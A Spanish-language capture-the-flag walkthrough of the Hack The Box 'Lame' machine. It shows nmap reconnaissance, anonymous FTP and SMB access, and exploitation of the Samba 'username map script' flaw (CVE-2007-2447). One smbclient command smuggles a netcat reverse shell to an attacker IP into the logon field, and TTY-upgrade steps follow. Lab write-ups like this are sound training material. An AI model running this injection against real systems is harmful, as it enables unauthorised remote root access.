







<p align="center">
  
</p>

# Introducción

Lame es una máquina en Linux de dificultad fácil en la cual se va a utilizar un script en python para explotar una vulnerabilidad en SMB (CVE-2007-2447) sin usar Metasploit.

# Fase de reconocimiento

En caso de tener problemas al hacer la fase de reconocimiento con nmap puede ser por el Firewall de Parrot OS, que se puede desactivar con:

```bash
sudo service opensnitch stop
```

Vamos a ver los puertos abiertos con el comando **sudo nmap -p- -sS --min-rate 5000 -open -vvv -n -Pn -oG allports 10.10.10.3** obteniendo lo siguiente:

```go
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-08 17:08 -05
Initiating SYN Stealth Scan at 17:08
Scanning 10.10.10.3 [65535 ports]
Discovered open port 22/tcp on 10.10.10.3
Discovered open port 21/tcp on 10.10.10.3
Discovered open port 139/tcp on 10.10.10.3
Discovered open port 445/tcp on 10.10.10.3
Stats: 0:00:16 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 62.45% done; ETC: 17:08 (0:00:10 remaining)
Stats: 0:00:20 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 77.70% done; ETC: 17:08 (0:00:06 remaining)
Discovered open port 3632/tcp on 10.10.10.3
Completed SYN Stealth Scan at 17:08, 26.37s elapsed (65535 total ports)
Nmap scan report for 10.10.10.3
Host is up, received user-set (0.094s latency).
Scanned at 2022-01-08 17:08:04 -05 for 26s
Not shown: 65530 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE      REASON
21/tcp   open  ftp          syn-ack ttl 63
22/tcp   open  ssh          syn-ack ttl 63
139/tcp  open  netbios-ssn  syn-ack ttl 63
445/tcp  open  microsoft-ds syn-ack ttl 63
3632/tcp open  distccd      syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.52 seconds
           Raw packets sent: 131083 (5.768MB) | Rcvd: 23 (1.012KB)
```

Lo anterior quedo guardado en el archivo **allports**:

```bash
# Nmap 7.92 scan initiated Sat Jan  8 17:08:04 2022 as: nmap -p- -sS --min-rate 5000 -open -vvv -n -Pn -oG allports 10.10.10.3
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.3 ()	Status: Up
Host: 10.10.10.3 ()	Ports: 21/open/tcp//ftp///, 22/open/tcp//ssh///, 139/open/tcp//netbios-ssn///, 445/open/tcp//microsoft-ds///, 3632/open/tcp//distccd///	Ignored State: filtered (65530)
# Nmap done at Sat Jan  8 17:08:30 2022 -- 1 IP address (1 host up) scanned in 26.52 seconds
``` 

Ahora, para esos puertos abiertos, veremos la versión y servicio que corren por ahí con **sudo nmap -sCV -p21,22,139,445,3632 10.10.10.3 -oN targeted** que nos arroja:

```bash
# Nmap 7.92 scan initiated Sat Jan  8 17:19:52 2022 as: nmap -sCV -p21,22,139,445,3632 -oN targered 10.10.10.3
Nmap scan report for 10.10.10.3
Host is up (0.18s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.14
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 6:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-01-08T22:27:09-05:00
|_clock-skew: mean: 7h36m57s, deviation: 3h32m11s, median: 5h06m54s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan  8 17:20:50 2022 -- 1 IP address (1 host up) scanned in 58.42 seconds
```

Vemos algo interesante del anterior resultado. Podemos ingresar con usuario anonymous:

<p align="center">
  
</p>

Para conectarnos al ftp debemos verificar que tenemos el cliente de ftp. En mi caso debo instalarlo con **sudo apt-get install ftp**

<br>

Nos conectamos con **ftp 10.10.10.3** (contraseña nula) y obtenemos:

```bash
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:janumejia): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
ftp> 
```

En otra terminal vamos a ver que vulnerabilidades conocidas tiene el servicio vsftpd 2.3.4. Para ello instalamos un programa que muestra las vulnerabilidades conocidas para distintos servicios. Se llama [SearchSploit](https://www.exploit-db.com/searchsploit)  y lo instalamos con:

```bash
sudo apt update && sudo apt -y install exploitdb 
```

Una vez instalado, actualizamos la base de datos de este programa con **searchsploit -u** (aunque se debe realizar automáticamente, pero por si las moscas).

<br>

Con el comando **searchsploit vsftpd** vemos las vulnerabilidades:

```bash
----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remote Memory Consumption                                       | linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (1)                                       | windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (2)                                       | windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service                                                                     | linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution                                                            | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                               | unix/remote/17491.rb
vsftpd 3.0.3 - Remote Denial of Service                                                              | multiple/remote/49719.py
----------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Existe vulnerabilidad para la versión **vsftpd 2.3.4**. También en Github podemos encontrar un programa que explota esta vulnerabilidad: [Hellsender01 / vsftpd_2.3.4_Exploit ] (https://github.com/Hellsender01/vsftpd_2.3.4_Exploit) la cual consta de poner una carita feliz **:)** al final del usuario ftp, pero no funciona , como se muestra a continuación:

<p align="center">
  
</p>

Intentaremos ver vulnerabilidades en el servicio samba, pero antes ¿que es el servicio samba?

## Servicio Samba

<p align="center">
  
</p>

Samba es una suite de aplicaciones Unix que habla el protocolo **SMB** (Server Message Block). Los sistemas operativos Microsoft Windows y OS/2 utilizan SMB para compartir por red archivos e impresoras y para realizar tareas asociadas. Gracias al soporte de este protocolo, Samba permite a las máquinas Unix entrar en el juego, comunicándose con el mismo protocolo de red que Microsoft Windows y aparecer como otro sistema Windows en la red (desde la perspectiva de un cliente Windows). El servidor Samba ofrece los siguientes servicios: 
    • Compartir uno o varios sistemas de archivos
    • Compartir uno o varios sistemas de archivos distribuidos
    • Compartir impresoras instaladas en el servidor entre los clientes Windows de la red
    • Ayudar a los clientes permitiéndoles navegar por la red
    • Autentificar a los clientes que ingresan en un dominio Windows
    • Proveer o ayudar con un servidor de resolución de nombres Windows (WINS) 
Fuente: [https://www.sergio-gonzalez.com/doc/10-ldap-samba-cups-pykota/html/samba-que-es.html](https://www.sergio-gonzalez.com/doc/10-ldap-samba-cups-pykota/html/samba-que-es.html) 

<br>

Vulnerabilidades en samba con **searchsploit samba 3.0.20** :

```bash
----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                               | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                     | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                                                | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                        | linux_x86/dos/36741.py
----------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Vamos a ver una de estas vulnerabilidades imprimiendo el código del programa que explota la vulnerabilidad con el comando **searchsploit -x unix/remote/16320.rb**:

<p align="center">
  
</p>

Es necesario [smbclient](https://www.computerhope.com/unix/smbclien.htm) para interactuar con el servidor SMB. Vamos a listar los recursos compartidos con **mbclient -L 10.10.10.3 -N --option="client min protocol=NT1"** ([ver](https://askubuntu.com/questions/1341049/samba-min-protocol-smb3-nmap-report-smbv1)) y obtenemos:

```go
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            LAME
```

Para ver específicamente un recurso compartido a nivel de red (el tmp) con **smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1"** y obtenemos:

<p align="center">
  
</p>

Intentamos ejecución de comandos remota como vimos anteriormente con **smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c 'logon "/=` nohup nc -e /bin/bash 10.10.14.12 443` " '** :

<p align="center">
  
</p>

Mejoramos el formato de la tty con:

- script /dev/null -c bash
- Ctrl + Z
- stty raw -echo; fg
- reset
- xterm
- export TERM=xterm
- export SHELL=bash
- stty rows 30 columns 135

Exploramos un poquito, y finalmente obtenemos las flags (ya somos root):

<p align="center">
  
</p>

<br>

[¡Lo hicimos!](https://www.hackthebox.com/achievement/machine/851602/1)

<br>

Fuente: [https://www.youtube.com/watch?v=MNJi4k9uNKQ](https://www.youtube.com/watch?v=MNJi4k9uNKQ)0
